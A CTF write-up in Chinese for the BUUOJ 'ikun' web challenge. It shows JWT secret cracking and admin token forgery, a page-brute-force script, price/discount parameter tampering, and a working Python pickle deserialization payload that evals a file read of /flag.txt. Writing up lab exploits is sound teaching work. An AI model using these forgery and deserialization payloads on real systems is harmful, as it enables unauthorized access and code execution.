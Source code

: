 # \[CISCN2019 华北赛区 Day1 Web2]ikun

## \[CISCN2019 华北赛区 Day1 Web2]ikun

## 考点

* JWT
* 逻辑漏洞
* tornado代码审计
* pickle反序列化

## wp

注册登录，提示剩余金额1000，并且在cookie中有JWT字段

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFhYWEifQ.bJejEdbt0h9U-vvnfoUAF7JFOPy0o6LqHQnITMhYL2I
```

在[jwt.io](https://jwt.io)上看一下，提示需要密钥

![](<../../.gitbook/assets/image (13) (1) (1).png>)

可以使用[`jwtcrack`](https://github.com/brendan-rius/c-jwt-cracker)破解密钥，结果是1Kun，username改成admin，重新生成JWT

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.40on__HQ8B2-wM1ZSwax3ivRK4j54jlaXv-1JjQynjo
```

回到个人中心，可以看到提示

![](<../../.gitbook/assets/image (12) (1) (1).png>)

```
>>> s='\\u8fd9\\u7f51\\u7ad9\\u4e0d\\u4ec5\\u53ef\\u4ee5\\u4ee5\\u8585\\u7f8a\\u6bdb\\uff0c\\u6211\\u8fd8\\u7559\\u4e86\\u4e2a\\u540e\\u95e8\\uff0c\\u5c31\\u85cf\\u5728\\u006c\\u0076\\u0036\\u91cc'
>>> s.encode('utf8').decode('unicode_escape')
'这网站不仅可以以薅羊毛，我还留了个后门，就藏在lv6里'
```

然后找lv6在哪儿，写爬虫爆破，在181页

```php
import requests

url = 'http://d34fe1a5-ca55-4b0b-9f8e-52d8f8a89f48.node4.buuoj.cn:81/shop?page=2'

for i in range(1,999999):
    url = f'http://d34fe1a5-ca55-4b0b-9f8e-52d8f8a89f48.node4.buuoj.cn:81/shop?page={str(i)}'
    r = requests.get(url)
    if '/static/img/lv/lv6' in r.text:
        print(url)
        break
```

![](<../../.gitbook/assets/image (16) (1) (1) (1) (1) (1).png>)

给的钱不够，应该是个逻辑漏洞，抓包看看，在结算的时候，有个折扣的参数，这里是打了8折

![](<../../.gitbook/assets/image (9) (1) (1).png>)

把price和discount都改成很低，看到返回了一个地址：`/b1g_m4mber`

![](<../../.gitbook/assets/image (7) (1) (1) (1).png>)

直接访问可以看到提示，给了源码

![](<../../.gitbook/assets/image (11) (1) (1) (1).png>)

`static/asd1f654e683wq/www.zip`下载源码，直接找路由吧，在`sshop/views/__init__.py`文件下

```python
handlers = [
    (r'/', ShopIndexHandler),
    (r'/shop', ShopListHandler),
    (r'/info/(\d+)', ShopDetailHandler),
    (r'/shopcar', ShopCarHandler),
    (r'/shopcar/add', ShopCarAddHandler),
    (r'/pay', ShopPayHandler),
    (r'/user', UserInfoHandler),
    (r'/user/change', changePasswordHandler),
    (r'/pass/reset', ResetPasswordHanlder),
    (r'/login', UserLoginHanlder),
    (r'/logout', UserLogoutHandler),
    (r'/register', RegisterHandler),
    (r'/b1g_m4mber', AdminHandler)
]
```

发现在`AdminHandler`中调用了`pickle.loads`，由此切入

```php
class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')

    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```

`pickle.loads`把字符串转换成对象，`get_argument`用于获取GET或POST的参数，`urllib.unquote`是python2的用法，然后就可以构造pickle反序列化了

```python
# python2
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print a
```

得到结果

```
c__builtin__%0Aeval%0Ap0%0A%28S%22open%28%27/flag.txt%27%2C%27r%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.
```

回到`/b1g_m4mber`，把输入框的`hidden`删掉

![](<../../.gitbook/assets/image (6) (1) (1) (1) (1).png>)

提交payload

![](<../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png>)

结果

![](<../../.gitbook/assets/image (12) (1).png>)

## 小结

1. 破解JWT的密钥可以使用[jwtcrack](https://github.com/brendan-rius/c-jwt-cracker)，在kali中使用
